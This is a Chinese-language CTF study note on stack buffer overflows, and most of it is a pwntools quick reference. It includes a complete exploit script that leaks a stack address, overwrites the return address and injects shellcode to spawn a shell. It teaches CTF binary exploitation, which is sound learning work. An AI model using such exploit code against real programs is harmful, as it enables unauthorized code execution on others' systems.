










# 一、栈溢出原理与防御手段

## 栈的介绍







## 栈溢出原理



## 简单栈溢出举例



​					**get函数可以输入没有长度限制的数据，所以可以用来实现栈溢出**

## pwntools的使用







# pwntools常用代码

你在脚本中看到的那些“陌生指令”，其实都是为了解决**三个核心问题**：

1. **怎么连接程序？** (本地运行还是远程攻击)
2. **怎么让数据“变身”？** (把人类看得懂的数字变成机器看得懂的字节)
3. **怎么交流？** (读程序输出，给程序发 Payload)

下面是 `pwntools` 最常用指令的“人话版”速查手册：

------

### 1. 启动与连接 (IO 模块)

这是写 exp 的第一步。

- **`process('./pwn')`**
  - **作用**：在**本地**运行名为 `pwn` 的程序。
  - **场景**：调试阶段使用。
- **`remote('111.222.33.44', 1234)`**
  - **作用**：连接到**远程服务器**（题目给的 IP 和端口）。
  - **场景**：本地调通了，去拿真正的 Flag 时用。

> **老手技巧**：通常我们会写一个开关，方便切换：
>
> Python
>
> ```
> local = True
> if local:
>     p = process('./pwn')
> else:
>     p = remote('node4.buuoj.cn', 28888)
> ```

------

### 2. 数据打包与解包 (Packing & Unpacking)

这是新手最容易晕，但也最重要的地方。 **核心原因**：我们看地址是十六进制数字（如 `0xdeadbeef`），但计算机内存存数据是**小端序 (Little Endian)** 的字节流。

- **`p64(数字)`** *(Pack 64-bit)*
  - **作用**：把一个整数转换成 **8字节** 的机器码（Bytes）。
  - **例子**：`p64(0x12345678)`  ->  `b'\x78\x56\x34\x12\x00\x00\x00\x00'`
  - **场景**：构造 Payload 时，把地址写入栈中。
- **`u64(字节串)`** *(Unpack 64-bit)*
  - **作用**：把 **8字节** 的机器码转换回整数。
  - **例子**：接收到 leak 的地址时，它是字节流，你需要 `u64` 转回数字才能进行加减法计算。
  - **场景**：解密 Gift 地址。
- **`p32()` / `u32()`**
  - **作用**：同上，但是针对 **32位** 程序的（4字节）。

------

### 3. 接收数据 (Receiving)

程序说话了，你要听。

- **`p.recvuntil(b"字符")`**
  - **作用**：一直读，直到遇到某个特定字符串为止。
  - **参数**：`drop=True` 表示读到的这个结束符扔掉不要，`drop=False` (默认) 表示保留。
  - **场景**：你的 exp 中用了 `p.recvuntil(b"]", drop=True)`，意思是“一直读，读到 `]` 为止，并且把 `]` 扔掉，剩下的就是前面的地址字符串”。
- **`p.recvline()`**
  - **作用**：读取一行数据（读到 `\n` 为止）。
- **`p.recv(n)`**
  - **作用**：硬读取 `n` 个字节，不管是什么。

------

### 4. 发送数据 (Sending)

你要把精心构造的 Payload 喂给程序。

- **`p.send(数据)`**
  - **作用**：发送数据，**不带**回车。
  - **场景**：发送 Shellcode 或精确长度的 payload 时用这个。
- **`p.sendline(数据)`**
  - **作用**：发送数据，并在末尾**自动加上** `\n` (换行符)。
  - **注意**：`scanf`、`gets` 等函数通常需要换行符来确认输入结束。但 `read` 函数不需要。
  - **坑点**：如果你只能读 64 字节，`payload` 刚好 64 字节，用 `sendline` 会多发一个 `\n` 变成 65 字节，可能破坏栈布局。

------

### 5. 控制权与调试 (Control & Debug)

- **`p.interactive()`**
  - **作用**：把控制权交给你。
  - **场景**：当你拿到 Shell 后，你需要手动输入 `ls`, `cat flag` 等命令，这时候就需要这个指令。如果不加，脚本跑完就自动退出了，连接也就断了。
- **`gdb.attach(p)`**
  - **作用**：**神器！** 让脚本暂停，并自动弹出一个 GDB 调试窗口附加到当前进程。
  - **场景**：当你不知道 payload 为什么没生效，或者想看栈的布局时，加上这句，脚本会停下来让你看内存。

------

### 6. ELF 模块 (自动化查找)

你可以不用手动去 IDA 里找地址，让 pwntools 帮你找。

Python

```
elf = ELF('./pwn')  # 加载文件

# 自动找函数地址
puts_addr = elf.symbols['puts'] 
system_addr = elf.symbols['system']

# 自动找字符串地址
sh_addr = next(elf.search(b'/bin/sh'))

# 自动找 GOT 表地址
puts_got = elf.got['puts']
```

------

### 举个完整的例子

结合你刚才的题目，一个标准的“老手”脚本结构是这样的：

Python

```
from pwn import *

# 1. 设置上下文 (让 pwntools 知道是 64位 linux，方便生成 shellcode)
context(os='linux', arch='amd64', log_level='debug') 
# log_level='debug' 会打印所有发送和接收的数据，方便排错

# 2. 启动
p = process('./pwn')
# elf = ELF('./pwn') # 如果需要自动找地址就开启

# 3. 交互逻辑
# 接收直到看到 '['
p.recvuntil(b"[") 
# 读取地址字符串
addr_str = p.recvuntil(b"]", drop=True) 
# 转换：字符串 -> 整数
buf_addr = int(addr_str, 16)

success(f"Get Stack Addr: {hex(buf_addr)}") # success 会打印漂亮的绿色加号

# 4. 构造 Payload
offset = 32
shellcode = asm(shellcraft.sh()) # 自动生成 64位 shellcode，不用手抄
target_addr = buf_addr + 32

payload = flat(         # flat 是 p64 的升级版，自动把列表里的东西拼接打包
    b'a' * 24,          # 填充
    target_addr,        # 覆盖 RET (自动 p64)
    shellcode           # Shellcode
)

# 5. 发送
p.send(payload)

# 6. 拿权
p.interactive()
```

### 总结建议

你现在只需要熟练掌握这几个：

1. `recvuntil()` - 精确接收

2. `p64()` - 地址转字节

3. `u64()` - 字节转数字 (解密 leak 用)

4. `send()` / `sendline()` - 发送 payload

5. `interactive()` - 最后的狂欢

   

## 栈防御手段







​							**RWX意思是可读可写，通常是是NX没有打开的时候才可以可读可写**


